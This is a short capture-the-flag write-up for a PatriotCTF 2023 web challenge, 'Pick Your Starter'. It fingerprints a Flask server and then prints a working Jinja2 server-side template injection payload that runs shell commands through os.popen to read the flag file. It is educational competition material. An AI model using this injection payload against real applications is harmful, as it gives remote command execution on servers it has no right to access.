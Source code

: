# Web

## Pick Your Starter

### Info

Picking a starter is hard, I hope you can do it.

_Flag format: PCTF{}_

_Author: @angr404_

[http://chal.pctf.competitivecyber.club:5555](http://chal.pctf.competitivecyber.club:5555/)
### Solve

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/patriotctf2023/nuclei_9090]
└─$ whatweb -a 3 http://chal.pctf.competitivecyber.club:5555
http://chal.pctf.competitivecyber.club:5555 [200 OK] Country[UNITED STATES][US], HTML5, HTTPServer[Werkzeug/2.3.7 Python/3.11.5], IP[184.72.110.40], Python[3.11.5], Title[Select Your Starter Pokémon], Werkzeug[2.3.7]
```

Since it's a Flask server, discovered **SSTI** first

![](attachment/8080a4e6ab93248138a2d335cb1db0a4.png)

Tried some `subclasses` and `builtins` script, didn't work

Worked :

```bash
http 'http://chal.pctf.competitivecyber.club:5555/{{lipsum.__globals__.os.popen(request.args.c).read()}}?c=cat /flag.txt'
```

![](attachment/0a5742f0be540b7cfac39743ba3e082c.png)
